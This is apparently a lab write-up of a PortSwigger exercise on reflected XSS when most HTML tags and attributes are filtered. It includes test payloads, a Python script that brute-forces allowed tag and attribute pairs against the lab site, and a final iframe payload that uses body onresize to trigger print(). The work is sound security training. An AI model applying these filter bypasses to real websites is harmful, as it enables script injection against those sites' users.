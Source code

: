 # Reflected XSS into HTML context with most tags and attributes blocked

In this challenge, we need to perform a Refelcted XSS attack in a site that applying filtering on most html tags and attributes.

Just like most challenges before, we're going to perform this attack in the search bar. Now let's try with some tags that we use as attacking attempts:

```html
<script>alert(1)</script>
<img src='x' onerror=alert()>
```

Result:
<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/common-tag-attempt.png?raw=true" alt="common-tag-attempt">

Seems like we're not able to use common tags. So i tried other tags and found out that ``<body>`` tag was allowed. Next thing we need to find is all attribute that allowed. We can find them in [Portswigger XSS CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

I create a python script that perform a bruteforce on attribute, to see which one was allowed. Here are attributes we able to use:
- onratechange
- onscrollend
- onbeforeinput
- onresize

Actually we can perform the attack with only combination of body tag and 4 attributes we found. But I want to know if there's any tag we able to use other than body tag. here my final code to find which combination is the best:

```python
import requests as req

#list of attribute that we able to use after bruteforce attribute
attribute = {"onratechange","onscrollend","onbeforeinput","onresize"}

#list of tags that possible to use
tags = {"a","abbr","acronym","address","applet","area","article","aside","audio","b","base","bdi","bdo","big","blink","blockquote","body","br","button","canvas","caption","center","cite","code","col","colgroup","command","content","data","datalist","dd","del","details","dfn","dialog","dir","div","dl","dt","element","em","embed","fieldset","figcaption","figure","font","footer","form","frame","frameset","h1","head","header","hgroup","hr","html","i","iframe","image","img","input","ins","kbd","keygen","label","legend","li","link","listing","main","map","mark","marquee","menu","menuitem","meta","meter","multicol","nav","nextid","nobr","noembed","noframes","noscript","object","ol","optgroup","option","output","p","param","picture","plaintext","pre","progress","q","rb","rp","rt","rtc","ruby","s","samp","script","section","select","shadow","slot","small","source","spacer","span","strike","strong","style","sub","summary","sup","svg","<svg><animate>","<svg><animatemotion>","<svg><animatetransform>","<svg><set>","table","tbody","td","template","textarea","tfoot","th","thead","time","title","tr","track","tt","u","ul","var","video","wbr","xmp",
}


def bruteTagAttribute(tag,attr):
    payload = f"<{tag} {attr}=print()></{tag}>"
    r = req.get(f"https://0ace000303a0e49180ffdf7a00cb0021.web-security-academy.net/?search={payload}")
    if(r.status_code == 200):
        print(payload)
    
for tag in tags:
    for attr in attribute:
        bruteTagAttribute(tag, attr)
```
well, in the end, the combinations was still body tag and those 4 attributes. Here are lists of combination that we able to use:

```html
<body onscrollend=print()></body>
<body onresize=print()></body>
<body onratechange=print()></body>
<body onbeforeinput=print()></body>
```
I directly use **``onresize()``** event handling to apply the attack. It will trigger the **``print()``** function when the user windows resized (we can trigger it without their action).

Insert the payload on the exploit server then deliver it:
```html
<iframe src="https://0ace000303a0e49180ffdf7a00cb0021.web-security-academy.net/?search=<body onresize=print()></body>" onload=this.width='200px'></iframe>
```
Result:
<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/Result.png?raw=true" alt="Result">